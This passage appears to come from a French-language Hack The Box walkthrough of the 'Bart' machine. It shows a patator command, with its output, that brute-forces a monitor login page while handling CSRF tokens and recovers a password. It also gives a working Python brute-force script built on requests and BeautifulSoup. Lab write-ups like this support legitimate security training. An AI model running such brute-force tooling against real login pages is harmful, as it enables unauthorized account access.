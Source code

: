 ```bash
devloop@kali:~$ patator http_fuzz url=http://monitor.bart.htb/index.php method=POST body="csrf=__CSRF__&user_name=harvey&user_password=FILE0" accept_cookie=1 before_urls=http://monitor.bart.htb/index.php before_egrep='__CSRF__:name="csrf" value="([0-9a-f]+)"' 0=passwords.txt -x ignore:fgrep='The information is incorrect'
14:00:35 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-05-26 14:00 CEST
14:00:35 patator    INFO -                                                                              
14:00:35 patator    INFO - code size:clen       time | candidate                          |   num | mesg
14:00:35 patator    INFO - -----------------------------------------------------------------------------
14:00:39 patator    INFO - 302  4218:0         1.566 | potter                             |     3 | HTTP/1.1 302 Found
14:00:39 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5/0/0/5, Avg: 1 r/s, Time: 0h 0m 3s
```

On peut aussi bien sûr utiliser notre propre outil de force brute avec le trio magique requests / BeautifulSoup / re :  

```python
import re
import sys

import requests
from bs4 import BeautifulSoup

CSRF_REGEX = re.compile("[a-f0-9]{64}")

username = sys.argv[1]
wordlist = sys.argv[2]

sess = requests.session()
r = sess.get("http://monitor.bart.htb/index.php")
soup = BeautifulSoup(r.text, "html5lib")
csrf_token = CSRF_REGEX.search(r.text).group()

with open(wordlist) as fd:
    for line in fd:
        password = line.strip()

        r = sess.post(
                "http://monitor.bart.htb/index.php",
                data={
                    "user_name": username,
                    "user_password": password,
                    "action": "login",
                    "csrf": csrf_token
                },
                headers={"referer": "http://monitor.bart.htb/index.php"}
        )

        if "The information is incorrect." not in r.text:
            print("Found password {} for user {}".format(password, username))
            break

        csrf_token = CSRF_REGEX.search(r.text).group()
```
